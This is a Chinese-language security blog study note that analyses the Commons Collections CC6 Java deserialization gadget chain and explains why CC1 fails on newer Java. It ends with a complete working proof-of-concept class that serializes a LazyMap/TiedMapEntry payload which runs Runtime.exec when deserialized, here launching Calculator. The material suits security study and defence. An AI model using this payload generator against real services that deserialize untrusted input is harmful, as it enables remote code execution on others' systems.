 # [Java安全] CommonsCollections6链分析




# 前言

之前我们分析了CC1，从简化版开始学习，再到完整分析CC1，再学习了动态代理和LazyMap的利用链构造，但是都有一个缺陷就是版本限制，只能适用于8u71之前的链子，因为AnnotationInvocationHandler的readObject方法发生了改变，CC6就是为了高版本Java的利用问题



# CC6

这里我还是跟着p牛的Java安全漫谈来学习，这里p牛是简化了ysoserial的CC6利用链，gadget是这样的

![image-20221002161146283](https://tuchuang.huamang.xyz/img/image-20221002161146283.png)

我们从后往前看，可以发现还是走了`LazyMap.get()`方法，在CC1中，我们是通过动态代理Map，从`AnnotationInvocationHandler.readObject`调用`this.memberValues.entrySet()`然后到`AnnotationInvocationHandler.invoke()`再调用到get方法

而高版本的readObject逻辑已经修改了，不能走这条路了，观察CC6的gadget，这里走了`org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()`

我们跟进TiedMapEntry去看看，执行了`this.map.get(this.key)`，我们实例化的时候是可以操控map和key的的

而且他的`hashCode`方法又执行了`this.getValue()`

```java
public class TiedMapEntry implements Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
		// ...
    public Object getValue() {
        return this.map.get(this.key);
    }
		// ...
    public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
  	// ...
```

所以现在的目的就变成了找到哪里调用了`TiedMapEntry#hashCode`，看到gadget是调用了`HashMap.hash()`方法这其实就是接上了之前学习的[URLDNS链子](https://blog.huamang.xyz/urldns)

在HashMap的readObject中调用了

```java
putVal(hash(key), key, value, false, false)
```

跟进hash方法，调用了key.hashCode()

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

所以我们**控制key为TiedMapEntry的对象**即可

# POC

首先是创建好我们的恶意Map

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] { String.class }, new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

然后就是这次的主角TiedMapEntry登场了，我们需要他的hashCode方法，调用到他的hashCode方法的途径是HashMap的readObject里面的hash(key)

所以我们实例化TiedMapEntry，把恶意的Map传入作为map参数，key是啥无所谓，因为要进ChainedTransformer，然后再把这个TiedMapEntry**作为key传入**HashMap中，这样就调用到了`TiedMapEntry#hashCode()`

```java
TiedMapEntry tme = new TiedMapEntry(outerMap,"key");
HashMap expMap = new HashMap();
expMap.put(tme,"value");
```

## 注意点1

看ysoserial代码可以发现，他构造ChainedTransformer的时候，是这样的，多了一个

`new ConstantTransformer(1)` 

![image-20221002195409931](https://tuchuang.huamang.xyz/img/image-20221002195409931.png)

起初我没觉得有什么，后来到了分析CC6的链子的时候，我发现会报错

原因是java.lang.UNIXProcess不能被序列化

![image-20221002195706140](https://tuchuang.huamang.xyz/img/image-20221002195706140.png)

这里我调试跟进去看了一下，如果POC和之前一样的话，这里是返回UNIX对象的

![image-20221002200458055](https://tuchuang.huamang.xyz/img/image-20221002200458055.png)

因为CC6的最后需要把恶意的代码加进一个新的Map里面去，然后再对这个Map进行序列化，所以这里就会因为UNIXProcess没有基础serializable而触发报错了

![image-20221002200537033](https://tuchuang.huamang.xyz/img/image-20221002200537033.png)

所以我们的解决办法就是在后面再加上一个`new ConstantTransformer(1)`，这样返回的就是可序列化的对象了

![image-20221002200921497](https://tuchuang.huamang.xyz/img/image-20221002200921497.png)



## 注意点2



链子基本就是这样了，但是有一点要注意的是，如果直接拿expMap去生成序列化数据，**是不会RCE的**

原因在这，当我们进入LazyMap的get方法的时候，他这个判断条件过不去，不会进入执行factory.transform方法

![image-20221002183348955](https://tuchuang.huamang.xyz/img/image-20221002183348955.png)

原因是在构造新的Map的时候，我们执行了一次`expMap.put(tme,"value");`，把恶意数据put进Map中，在执行这个方法的时候会走进LazyMap的get方法，再插入一个数据进去，`{"key",1}`

![image-20221002202725130](https://tuchuang.huamang.xyz/img/image-20221002202725130.png)

所以当我们反序列化以后的恶意的outerMap要去执行get的时候，就会因为里面有值而过不了判断执行不了transform

![image-20221002202619587](https://tuchuang.huamang.xyz/img/image-20221002202619587.png)

解决办法就是在`expMap.put(tme,"value");`的后面去把outerMap的内容删除即可

最后的POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, IOException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap,"key");
        HashMap expMap = new HashMap();
        expMap.put(tme,"value");
        outerMap.remove("key");
        FileOutputStream fileInputStream = new FileOutputStream(new File("./1.txt"));
        ObjectOutputStream oos = new ObjectOutputStream(fileInputStream);
        oos.writeObject(expMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(new File("./1.txt")));
        Object o = (Object) ois.readObject();
    }
}

```

